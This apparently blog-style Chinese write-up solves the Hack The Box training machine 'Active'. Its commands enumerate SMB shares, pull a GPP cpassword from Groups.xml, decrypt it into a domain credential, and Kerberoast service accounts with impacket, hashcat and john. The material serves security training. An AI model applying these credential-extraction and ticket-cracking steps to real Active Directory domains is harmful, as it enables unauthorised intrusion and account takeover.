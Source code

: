 ```yaml
---
title: Active（windows smb共享硬盘）
categories:
- training
tags:
- training
- port 445
- windows
---
```

参考资料：[smbclient](https://whale3070.github.io/tools/2016/12/12/x/)

## scan

```
53/tcp    open  domain        Microsoft DNS 6.1.7601
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2019-01-02 04:44:03Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49169/tcp open  msrpc         Microsoft Windows RPC
49171/tcp open  msrpc         Microsoft Windows RPC
49182/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
## analysing
参考资料：[windows active directory](https://zh.wikipedia.org/wiki/Active_Directory)

`53/tcp    open  domain        Microsoft DNS 6.1.7601`
以上结果说明了，这是一台域名服务器（Domain Name System server），active.htb

搜索一下“Microsoft DNS 6.1.7601”，即可得知系统版本——Windows 2008 R2 Standard version

## smb协议探测（Server Message Block protocol）
445端口是用来共享文件夹或者打印机的
```
nmap --script safe -p445 10.10.10.100

smbclient -L //10.10.10.100

smbmap -H 10.10.10.100
```
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/8.PNG)

smbclient //10.10.10.100/Replication
WARNING: The "syslog" option is deprecated
protocol negotiation failed: NT_STATUS_CONNECTION_RESET

## smbmap
SMBMap - Samba Share Enumerator

用smbmap -h可以查看帮助文档

-R是递归列出某目录
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/9.PNG)

```
获得信息：
	.\\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\
	dr--r--r--                0 Sat Jul 21 18:37:44 2018	.
	dr--r--r--                0 Sat Jul 21 18:37:44 2018	..
	-r--r--r--              533 Sat Jul 21 18:38:11 2018	Groups.xml
```
下载文件: `smbmap -H 10.10.10.100 -R Replication -A Groups.xml`
```
获得信息2：
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
userName="active.htb\SVC_TGS"
```
## 破解cpassword

参考资料：[Exploiting GPP - Credential Storage in Groups.xml File](https://www.youtube.com/watch?v=ks4aNbArOtk)
[工具下载**gpprefdecrypt.ps1**](https://github.com/reider-roque/pentest-tools/blob/master/password-cracking/gpprefdecrypt/gpprefdecrypt.ps1)

```
cmd.exe 右键以管理员身份运行
cd C:\Users\whale\Desktop
powershell.exe ./gpprefdecrypt.ps1 edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/10.PNG)
`GPPstillStandingStrong2k18`

#### 问题
期间出现windows不允许执行ps1脚本。
解决办法：以管理员身份运行powershell，输入以下命令，然后输入Y。
```
set-executionpolicy remotesigned
```
#### 方法二：
kali工具破解：
```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
## 域用户提权
`smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.10.100`
![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/11.PNG)

可以发现，多了三个目录可读。依次检查这些目录，获得了user.txt。
`smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.10.100 -R Users -A user.txt`

**Kerberoasting**
[GetUserSPNs.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetUserSPNs.py)

Kerberoasting是从票据分发服务中破解hash，来获得明文密码。

Kerberos身份验证使用服务主体名称（SPN）来标识关联的帐户。

```
ldapsearch -x -h 10.10.10.100 -p 389 -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname | grep -B 1 servicePrincipalName

locate GetUserSPNs.py

/usr/share/doc/python-impacket/examples/GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out

```
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/12.PNG)

```
apt install exim4-config
apt-get install pocl-opencl-icd
apt-get install libhwloc-dev ocl-icd-dev ocl-icd-opencl-dev
apt-get upgrade hashcat 更新了一下hashcat，然后就可以正常运行了
hashcat -m 13100 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force --potfile-disable

john --format:krb5tgs GetUserSPNs.out --wordlist=/usr/share/wordlists/rockyou.txt
```
![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/13.PNG)
如果字典里没有正确的密码，hashcat会提示
```
[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit => 
```
这个时候就要换字典，再次尝试，或者放弃。

![14](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/14.PNG)
## 总结

工作组和域
[工作组和域的区别](https://www.douban.com/note/527276260/)

域一般用在比较大的网络里，需要一台域控服务器，其他计算机要互相访问就要经过它。

工作组比较小（网上邻居），没有控制彼此访问的服务器。

下次继续学习windows域渗透。。。



